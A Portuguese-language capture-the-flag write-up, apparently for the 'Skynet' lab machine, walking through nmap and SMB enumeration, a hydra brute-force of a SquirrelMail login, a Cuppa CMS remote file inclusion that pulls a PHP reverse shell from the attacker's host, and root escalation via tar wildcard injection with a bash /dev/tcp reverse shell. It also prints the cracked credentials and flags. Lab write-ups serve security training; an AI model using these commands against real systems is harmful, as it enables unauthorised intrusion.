 # SCANNING
Com o comando 
```Kali
sudo nmap -A -Pn -T5 -v 10.10.76.34
```
iniciamos o escaneamento mais abrangente, sem realizar o PING, nas 1000 portas comum, de forma agressiva
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250131173426.png)
## Informações Levantadas
**Portas Abertas**: 22, rodando um serviço SSH OpenSSH 7.2p2 Ubuntu 4ubuntu2.7
			80, rodando um serviço WEB Apache httpd 2.4.18
			110, rodando um serviço de email POP3 Dovecot pop3d
			139, rodando um serviço
			143, rodando um serviço de email Dovecot imapd
			445, , rodando um serviço Samba 4.3.11
**SO**: Ubuntu 4.4
# Enumeração
Ao acessar o serviço WEB encontramos uma página mas sem formas de exploração aparente
![[Pasted image 20250211172518.png]]
Realizamos então a enumeração do serviço SMB e descobrimos algumas coisas interessantes
```Kali
enum4linux -a 10.10.255.32
```
![[Pasted image 20250211172131.png]]
Conseguimos conectar no compartilhamento anonymous e identificamos um arquivo de log, que parece ser uma wordlist
```Kali
smbclient //10.10.255.32/anonymous -N
```
![[Pasted image 20250211172249.png]]
![[Pasted image 20250211132254.png]]
Realizamos a enumeração do serviço WEB com o **gobuster** e identificamos um serviço de email

```Kali
gobuster dir -u http://10.10.255.32 -w /usr/share/wordlists/dirb/big.txt
```

![[Pasted image 20250211132115.png]]

![[Pasted image 20250211125256.png]]
# Exploração
Tentaremos descobrir a credencial do usuário milesdyson (nome de um compartilhamento) com a wordlist encontrada em log1 com o **hydra**, utilizando o **Burp Suite** para analisar a requisição e montar a sintaxe
```Kali
hydra -l milesdyson -P /home/rosembrick/log1.txt 10.10.255.32 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown user or password incorrect" -v -T64 -I
```

![[Pasted image 20250211125533.png]]

![[Pasted image 20250211125612.png]]

Após a tentativa, descobrimos a credencial e assim obtivemos acesso ao serviço de email
![[Pasted image 20250211124948.png]]
login: milesdyson   password: cyborg007haloterminator
Numa das primeiras mensagens, há uma senha do serviço SMB possivelmente
![[Pasted image 20250211125214.png]]

Conseguimos acesso ao compartilhamento do usuário milesdyson e obtemos acesso a um arquivo importante, chamado importan.txt com suposto diretório
![[Pasted image 20250211125717.png]]

![[Pasted image 20250211125803.png]]
Ao acessarmos o diretório encontramos esta página e assim, tentamos mais uma vez enumerar com o **gobuster**
![[Pasted image 20250211125822.png]]
Com o comando abaixo, identificamos uma página de login
```Kali
gobuster dir -u http://10.10.255.32/45kra24zxs28v3yd -w /usr/share/wordlists/dirb/big.txt
```
![[Pasted image 20250211125057.png]]

![[Pasted image 20250211125924.png]]
Procuramos por exploits que explorem o serviço CUPPA CMS e identificamos um exploit para executar um RFI
![[Pasted image 20250211125443.png]]
Preparamos nosso exploit conforme descrição do script, alterando para o nosso host conforme se segue
![[Pasted image 20250211130055.png]]
Com um listener aberto no Kali e um servidor Python para que o alvo se conecte e faça o dowload do nosso reverse shell por PHP, acessamos a página abaixo
http://10.10.255.32/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.23.22.193:443/exploit_php.php
![[Pasted image 20250211125334.png]]
E assim, conseguimos acesso ao alvo pelo usuário www-data.
![[Pasted image 20250211124851.png]]
Capturamos a flag do user
![[Pasted image 20250211131725.png]]
**user:** 7ce5c2109a40f958099283600a9ae807
# Escalação de Privilégio
Realizamos uma enumeração interna com **linpeas.sh** baixado por um servidor python do nosso Kali
![[Pasted image 20250211132021.png]]
E identificamos esse script que realiza backup a cada 1 min com a ferramenta **tar**, passível de explorarmos para escalarmos privilégio
![[Pasted image 20250211124302.png]]

![[Pasted image 20250211124424.png]]
Verificamos que o binário **tar** executa um comando em cada ponto de verificação do backup
![[Pasted image 20250211124600.png]]
Para isso preparamos nosso script para escalarmos para root com o comando abaixo
![[Pasted image 20250211130324.png]]

```Kali
echo '#!/bin/bash > root_shell.sh
```
```Kali
echo 'bash -i >& /dev/tcp/10.23.22.193/4445 0>&1' >> root_shell.sh
```
Agora criaremos um **arquivo** chamado `--checkpoint-action=exec=bash root_shell.sh`, contendo o texto `/var/www/html` para que o `tar` executado dentro desse diretório, use o `--checkpoint`, e assim executar o nosso shell reverso `root_shell.sh`.
```Kali
echo "/var/www/html"  > "--checkpoint-action=exec=bash root_shell.sh"
```
![[Pasted image 20250211130505.png]]
Como o arquivo inicial `/home/milesdyson/backups/backup.sh`executa o binário **tar** a cada minuto, receberemos a shell de root em 1 minuto conforme abaixo.
![[Pasted image 20250211131601.png]]
Já com acesso ao root, capturamos a flag de root

![[Pasted image 20250211131643.png]]

**root:** 3f0372db24753accc7179a282cd6a949

